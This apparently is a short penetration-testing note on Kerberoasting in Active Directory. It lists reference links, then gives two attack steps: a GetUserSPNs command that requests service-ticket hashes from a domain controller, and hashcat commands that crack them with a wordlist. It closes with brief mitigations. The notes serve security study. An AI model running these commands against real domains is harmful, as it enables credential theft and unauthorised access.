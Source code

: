 # Kerberoasting

## Resources

* [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)
* [https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
* [https://www.youtube.com/watch?v=LmbP-XD1SC8\&t=30s\&ab\_channel=SANSOffensiveOperations](https://www.youtube.com/watch?v=LmbP-XD1SC8\&t=30s\&ab\_channel=SANSOffensiveOperations)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)
* [https://www.varonis.com/blog/kerberos-authentication-explained/](https://www.varonis.com/blog/kerberos-authentication-explained/)
* [https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
* [https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/](https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/)
* [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
* [https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)

![](<../../../.gitbook/assets/Kerberoasting Overview.png>)

## Kerberoasting Attack Overview

#### Step 1: Get SPNs (Service Principal Name), Dump Hash

```bash
python getuserspns.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

#### Step 2: Crack the Hash

```bash
hashcat --help | grep Kerberos
hashcat -m 13100 kerberoasthash.txt rockyou.txt
```

## Mitigation

* strong passwords
* least privilege
